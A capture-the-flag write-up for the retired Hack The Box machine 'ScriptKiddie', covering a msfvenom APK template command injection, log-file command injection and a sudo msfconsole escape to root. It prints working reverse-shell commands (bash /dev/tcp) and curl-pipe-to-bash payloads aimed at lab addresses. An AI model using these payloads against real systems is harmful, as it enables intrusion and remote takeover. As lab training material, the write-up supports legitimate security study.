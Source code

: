 # ScriptKiddie

This is the write-up for the box ScriptKiddie that got retired at the 5th June 2021.
My IP address was 10.10.14.9 while I did this.

Let's put this in our hosts file:
```markdown
10.10.10.226    scriptkiddie.htb
```

## Enumeration

Starting with a Nmap scan:

```
nmap -sC -sV -o nmap/scriptkiddie.nmap 10.10.10.226
```

```
PORT     STATE SERVICE VERSION
22/tcp   open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.1 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
|   3072 3c:65:6b:c2:df:b9:9d:62:74:27:a7:b8:a9:d3:25:2c (RSA)
|   256 b9:a1:78:5d:3c:1b:25:e0:3c:ef:67:8d:71:d3:a3:ec (ECDSA)
|_  256 8b:cf:41:82:c6:ac:ef:91:80:37:7c:c9:45:11:e8:43 (ED25519)
5000/tcp open  http    Werkzeug httpd 0.16.1 (Python 3.8.5)
|_http-title: k1d'5 h4ck3r t00l5
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

## Checking HTTP (Port 5000)

The webpage on port 5000 has the title _"k1d'5 h4ck3r t00l5"_ and hosts some hacking tools:

![Hacking Tools](scriptkiddie_web-1.png)

It uses **Nmap**, **Msfvenom** and **Searchsploit** in the background.
After testing for web vulnerabilities in all tools, it may possible to exploit a publicly known vulnerability in **Msfvenom** as it is possible to upload a template file:
```
searchsploit msfvenom

Metasploit Framework 6.0.11 - msfvenom APK template command injection
```

Changing the payload in the script to a reverse shell command:
```python
# Change me
payload = 'curl 10.10.14.9:8000/shell.sh | bash'
# (...)
```

Executing the script to create a malicious APK file:
```
python3 49491.py
```
```
[+] Done! apkfile is at /tmp/tmpzxxkai7n/evil.apk
Do: msfvenom -x /tmp/tmpzxxkai7n/evil.apk -p android/meterpreter/reverse_tcp LHOST=127.0.0.1 LPORT=4444 -o /dev/null
```

Creating the shell script that will be executed from the **Msfvenom template**:
```
bash -i >& /dev/tcp/10.10.14.9/9001 0>&1
```

Uploading the APK file with the feature on the website:

![Uploading APK file](scriptkiddie_web-2.png)

After _generating_ the payload, it will download _shell.sh_ to execute it and the listener on my IP and port 9001 starts a reverse shell as the user _kid_.

## Privilege Escalation

In the home directory of _kid_ is a file called _/home/kid/logs/hackers_ with no contents.
This file is used on the web application in _/home/kid/html/app.py_ in the _searchsploit_ function:
```python
# (...)
def searchsploit(text, srcip):
    if regex_alphanum.match(text):
        result = subprocess.check_output(['searchsploit', '--color', text])
        return render_template('index.html', searchsploit=result.decode('UTF-8', 'ignore'))
    else:
        with open('/home/kid/logs/hackers', 'a') as f:
            f.write(f'[{datetime.datetime.now()}] {srcip}\n')
        return render_template('index.html', sserror="stop hacking me - well hack you back")
# (...)
```

It gets an entry, when the **Searchsplot** feature does not contain any alphanumeric characters:
```
regex_alphanum = re.compile(r'^[A-Za-z0-9 \.]+$')
```

Sending special characters to the **Searchsplot** feature while checking the file with `tail -f`:
```
tail -f logs/hackers

[2022-04-24 15:10:32.866897] 10.10.14.9
tail: ../logs/hackers: file truncated
```

The file gets truncated after the entry, so lets check why this happens with [psyp](https://github.com/DominicBreuker/pspy):
```
wget 10.10.14.9:8000/pspy64s
chmod +x pspy64s

./pspy64s
```

After sending special characters, it spawns processes that execute _/home/pwn/scanlosers.sh_ and does a port scan on our client:
```
CMD: UID=1001 PID=10768  | /bin/bash /home/pwn/scanlosers.sh
CMD: UID=1001 PID=10775  | sh -c nmap --top-ports 10 -oN recon/10.10.14.9.nmap 10.10.14.9 2>&1 >/dev/null
```

This user has read permissions for the bash script _/home/pwn/scanlosers.sh_:
```bash
log=/home/kid/logs/hackers

cd /home/pwn/
cat $log | cut -d' ' -f3- | sort -u | while read ip; do
    sh -c "nmap --top-ports 10 -oN recon/${ip}.nmap ${ip} 2>&1 >/dev/null" &
done

if [[ $(wc -l < $log) -gt 0 ]]; then echo -n > $log; fi
```

The script reads the _hackers_ file and `cuts` out everything before the third field which is the IP address.

Testing command injection on the third field with a `curl` command:
```
echo 'abc def ;curl 10.10.14.9:9001 #' >> logs/hackers
```

The listener on my IP and port 9001 gets a response back, so the command injection works and the reverse shell script can be used:
```
echo 'abc def ;curl 10.10.14.9:8000/shell.sh | bash #' >> logs/hackers
```

After sending the command, it will execute _shell.sh_ and the listener on my IP and port 9001 starts a reverse shell as the user _pwn_.

### Privilege Escalation to root

The user _pwn_ is able to run **Msfconsole** with root permissions:
```
sudo -l

User pwn may run the following commands on scriptkiddie:
    (root) NOPASSWD: /opt/metasploit-framework-6.0.9/msfconsole
```

Starting the **Metasploit Console**
```
sudo /opt/metasploit-framework-6.0.9/msfconsole
```

It is possible to execute local commands from `msfconsole` and the privileges will stay:
```
msf6 > /bin/bash
[*] exec: /bin/bash

root@scriptkiddie:/home/pwn# whoami
root
```

The command `bash` will start a shell as root!
